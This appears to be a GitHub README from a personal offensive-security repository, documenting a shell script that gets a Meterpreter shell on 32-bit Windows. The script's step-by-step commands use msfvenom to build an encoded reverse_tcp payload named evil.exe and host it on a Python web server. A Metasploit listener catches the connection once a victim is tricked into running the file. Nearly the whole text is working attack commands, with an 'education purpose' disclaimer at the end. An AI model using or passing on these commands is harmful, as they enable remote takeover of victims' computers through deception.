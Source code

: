 # PWN
This section will contain scripts that I wrote to gain ownership to a machine.

|Name|Description|
|----|-----------|
|pwnWindows_x86.sh| Get a meterpreter shell from 32bit windows with evil.exe|

### pwnWindows_x86.sh
This is a script to be used in Kali linux where the tools are already preinstalled.
1. Getting own IP and port
    ```sh
    attackerip=`ifconfig eth0 | grep netmask | cut -d' ' -f10`
    attackerport=9107
    ```
    The backtick is equivalent to bash `$(...) `
    
2. Generate evil.exe
    ```sh
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=$attackerip   LPORT=$attackerport -b '\x00\x0a\x0d' -f exe --arch x86 --platform windows -e x86/shikata_ga_nai -i 5 > evil.exe
    ```
    msfvenom is a very useful payload generator and encoder.
    
3. Host evil.exe on web server
    ```sh
    gnome-terminal --tab -e "python -m SimpleHTTPServer 80"
    ```
    A very simple way to start a web server with python2.7 
    `gnome-terminal --tab` was used to open up a separate terminal tab so that I can watch the web server on a separate terminal.
    
4. start metasploit meterpreter listener
    ```sh
    msfconsole -q -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set LHOST $attackerip; set LPORT $attackerport; run;"
    ```
    Now that the meterpreter is listening, we will need to trick the victim to download and run this malicious `evil.exe`

**This is just for education purpose, hence the obvious file naming without much trickery.**

 [dill]: <https://github.com/joemccann/dillinger>

